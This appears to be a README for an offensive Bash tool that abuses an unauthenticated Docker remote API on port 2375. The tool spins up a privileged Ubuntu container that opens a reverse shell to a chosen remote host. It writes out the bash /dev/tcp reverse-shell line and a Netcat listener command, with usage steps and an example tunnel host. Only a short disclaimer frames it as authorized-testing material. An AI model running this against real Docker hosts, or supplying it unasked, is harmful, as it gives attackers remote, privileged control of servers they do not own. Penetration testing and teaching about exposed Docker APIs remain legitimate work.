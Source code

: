 🐚 Docker Reverse Shell Initializer
This Bash script automates the creation of a privileged Ubuntu container on a remote Docker host (exposed via the Docker API on port 2375), configured to initiate a one-shot reverse shell to a specified remote host and port. It also launches a local Netcat listener to catch the shell.

⚠️ Intended for educational and authorized use only. Unauthorized access or control of systems is illegal.

🚀 Features
Pulls the official ubuntu:22.04 image.

Creates a privileged container with a reverse shell command.

Starts a Netcat listener on your local machine.

Keeps the container alive even after the reverse shell session ends.

Uses the Docker remote API (unauthenticated, port 2375).

🛠 Requirements
Docker daemon on remote host exposed at tcp://<IP>:2375

Local tools:

bash

curl

nc (Netcat)

Terminal emulator (one of: gnome-terminal, x-terminal-emulator, or xterm)

📦 Usage
Make the script executable:

bash
Copy
Edit
chmod +x docker-rev-shell.sh
Run the script:

bash
Copy
Edit
./docker-rev-shell.sh
Provide the following when prompted:

Docker host IP (e.g. 192.168.1.10)

Reverse shell destination (e.g. proxy50.rt3.io)

Port for the reverse connection (e.g. 32532)

📡 How It Works
A listener (nc -lvnp 4444) is started in a new terminal window.

The script:

Pulls the Ubuntu Docker image.

Creates a container with:

bash
Copy
Edit
bash -i >& /dev/tcp/$PROXY_HOST/$PROXY_PORT 0>&1; exec sleep infinity
Starts the container to initiate the reverse shell.

The reverse shell will connect to $PROXY_HOST:$PROXY_PORT, while your listener waits on port 4444.

⚠️ Security Notice
Exposing the Docker API on port 2375 without authentication is a critical security risk. This script assumes that you have authorized access to the Docker host.

📄 Disclaimer
This tool is for authorized penetration testing, research, or educational purposes only. Misuse of this script may lead to criminal charges. Always obtain explicit permission before interacting with systems you do not own.
